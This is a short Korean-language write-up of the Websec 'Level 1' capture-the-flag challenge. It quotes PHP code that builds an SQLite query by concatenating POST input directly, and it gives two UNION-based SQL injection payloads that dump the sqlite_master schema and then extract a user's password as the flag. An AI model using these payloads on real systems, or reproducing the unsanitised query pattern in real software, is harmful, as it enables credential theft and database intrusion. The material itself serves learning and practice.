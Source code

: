 ```yaml
---
title : "Websec - Level 1"
excerpt : "Websec - Level 1 Babysteps"
toc : true
toc_sticky : true
categories :
  - Websec
tags :
  - sql injection
---
```

## 1. Source code
코드에서 필요한 부분만 뽑았다.

```php
$userDetails = $lo->doQuery ($_POST['user_id']); # 입력한 값을 doQuery 객체에 보내고 리턴값을 userDetails 변수에 저장함.
# doQuery 객체 코드
$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; # injection 변수는 매개변수임. 
```

db는 sqlite3버젼이다.  
sqlite에서  MySQL의 information_schema와 같은 역할을 하는 테이블은 sqlite_master이다.  컬럼으로는 몇개가 있었는데 필요한 컬럼은 sql컬럼이다.
sql컬럼에는 테이블 정보가 들어가있다. 

## 2. Vulnerability

SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1 이 부분에서 터진다. union을 이용한 기초적인 sql injection 문제다. 

## 3. Solution

입력를 ```1 union select 1,sql from sqlite_master -- ```라고 하면  
``` username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255)) ``` 이런식으로 테이블 정보가 출력된다. 
따라서 다시 입력값으로 ```1 union select 1,password from users where id=1 -- ```을 주면 플래그가 나온다.
